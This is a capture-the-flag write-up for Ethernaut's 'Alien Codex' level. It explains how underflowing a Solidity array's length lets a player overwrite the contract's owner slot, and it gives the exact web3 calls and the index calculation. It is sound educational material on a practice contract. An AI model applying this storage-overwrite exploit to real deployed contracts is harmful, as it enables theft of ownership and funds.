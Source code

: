 # Ethernaut: 19. Alien Codex

> You've uncovered an Alien contract.

**Objective of CTF:**

- Claim ownership to complete the level.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }

  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

The problem is hinting us to somehow use the `codex` array to change the owner of the contract. The tool in doing so probably has something to do with the `length` of array. In fact, the `retract` is suspiciously dangerous, and actually might _underflow_ the array length!. The array length is an `uint256`, and once it is underflowed you basically "have" the entire contract storage (all `2 ^ 256 - 1` slots) as a part of your array. Consequently, you can index everything in the memory with that array!

- After `make_contact`, we see that `await web3.eth.getStorageAt(contract.address, 0)` returns `0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272`. Remember that smaller than 32-bytes variables are bundled together if they are conseuctive, so this is actually `owner` and `contact` variable side by side! The `01` at the end of leftmost `0x00..01` stands for the boolean value.
- The next slot, `await web3.eth.getStorageAt(contract.address, 1)` is the length of `codex` array. If you record something you will see that it gets incremented. Well, what if we `retract`? You will be shocked to see that it becomes `0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff`!

So then, how does indexing work and how can we index the `owner` slot now that our array covers the entire storage? We look at the docs of highest version 0.5.0 as that is what the puzzle uses: <https://docs.soliditylang.org/en/v0.5.17/miscellaneous.html#mappings-and-dynamic-arrays>.

> The mapping or the dynamic array itself occupies a slot in storage at some position p according to the above rule (or by recursively applying this rule for mappings of mappings or arrays of arrays). For dynamic arrays, this slot stores the number of elements in the array. Array data is located at keccak256(p).

To see this in action, we can do:

```js
await contract.record('0xffffffffffffffffffffffffffffffff');
await web3.eth.getStorageAt(contract.address, web3.utils.hexToNumberString(web3.utils.soliditySha3(1)));
// 0xffffffffffffffffffffffffffffffff00000000000000000000000000000000
```

Alright, so first we have to `retract` until the array length underflows, and then we just have to offset enough from `keccak256(1)` until we overflow and get back to 0th index, overwriting the `owner`! The array data is located at `uint256(keccak256(1))` and there are `2 ** 256 - 1 - uint256(keccak256(1))` values between that and the end of memory. So, just adding one more to that would mean we go to 0th index. To calculate this index I just wrote a small Solidity code in Remix:

```solidity
function index() public pure returns(uint256) {
  return type(uint256).max - uint256(keccak256(abi.encodePacked(uint256(1)))) + 1;
}
```

Then I call the `revise` function as follows:

```js
await contract.codex('35707666377435648211887908874984608119992236509074197713628505308453184860938'); // if you want to confirm
await contract.revise(
  '35707666377435648211887908874984608119992236509074197713628505308453184860938',
  web3.utils.padLeft(player, 64)
);
```

Note that you can't set the array length property since version 0.6.0, thankfully! See <https://ethereum.stackexchange.com/a/84130>.
